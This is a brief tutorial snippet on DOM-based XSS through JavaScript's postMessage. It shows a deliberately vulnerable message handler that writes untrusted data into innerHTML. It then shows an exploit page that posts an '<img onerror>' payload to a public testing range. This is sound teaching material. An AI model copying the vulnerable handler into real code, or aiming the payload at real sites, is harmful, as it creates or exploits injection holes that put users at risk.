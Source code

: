 #### Post Message Function XSS example

Post message function in JS is used to enable communication between the page and the iframe inside it

Vulnerable code
```html
<html>
	<head><title>Toxic DOM</title></head>
	<body>
		<script>
			var postMessageHandler = function(msg) {
				var content = JSON.parse(msg.data);
				var div = document.createElement('div');
				div.innerHTML = content.html;
				document.documentElement.appendChild(div);
			};
			
			window.addEventListener('message', postMessageHandler, false);
		</script>
	</body>
</html>
```

(Exploitation) DOM XSS through postMessage example

```html
<html>
    <iframe id="target" src=""></iframe>
    <script>
        var target = document.getElementById("target");
        target.addEventListener("load", function () {
            var payload={
                html: "<img src=x onerror=alert(1)>"
            };
            target.contentWindow.postMessage(JSON.stringify(payload), "*");
        });
        target.src = "https://public-firing-range.appspot.com/dom/toxicdom/postMessage/innerHtml";
    </script>
</html>
```